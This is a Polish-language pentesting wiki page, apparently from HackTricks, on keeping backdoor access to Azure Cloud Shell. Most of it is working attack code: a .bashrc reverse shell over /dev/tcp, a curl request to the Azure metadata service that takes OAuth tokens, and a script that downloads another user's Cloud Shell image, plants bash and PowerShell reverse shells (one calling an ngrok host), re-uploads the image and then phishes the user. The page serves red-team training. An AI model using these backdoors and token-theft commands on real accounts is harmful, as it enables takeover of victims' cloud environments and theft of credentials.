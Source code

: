 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell oferuje dostęp do wiersza poleceń w celu zarządzania zasobami Azure z persistent storage i automatyczną autoryzacją. Atakujący mogą to wykorzystać, umieszczając backdoory w persistent home directory:

* **Persistent Storage**: Katalog domowy Azure Cloud Shell jest zamontowany na udostępnionym pliku Azure i pozostaje nienaruszony nawet po zakończeniu sesji.
* **Startup Scripts**: Pliki takie jak `.bashrc` lub `config/PowerShell/Microsoft.PowerShell_profile.ps1` są automatycznie wykonywane na początku każdej sesji, co pozwala na persistent execution, gdy cloud shell się uruchamia.

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Ten backdoor może wykonywać polecenia nawet 5 minut po zakończeniu sesji chmury przez użytkownika.

Dodatkowo zapytaj o usługi metadanych Azure w celu uzyskania szczegółów instancji i tokenów:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
### Cloud Shell Phishing

Jeśli atakujący znajdzie obrazy innych użytkowników w koncie Storage, do którego ma dostęp do zapisu i odczytu, będzie mógł pobrać obraz, **dodać do niego backdoora bash i PS** oraz przesłać go z powrotem do konta Storage, aby następnym razem, gdy użytkownik uzyska dostęp do powłoki, **polecenia były automatycznie wykonywane**.

- **Pobierz, dodaj backdoora i przesłać obraz:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```
- **Następnie, phishinguj użytkownika, aby uzyskać dostęp do https://shell.azure.com/**


{{#include ../../../banners/hacktricks-training.md}}
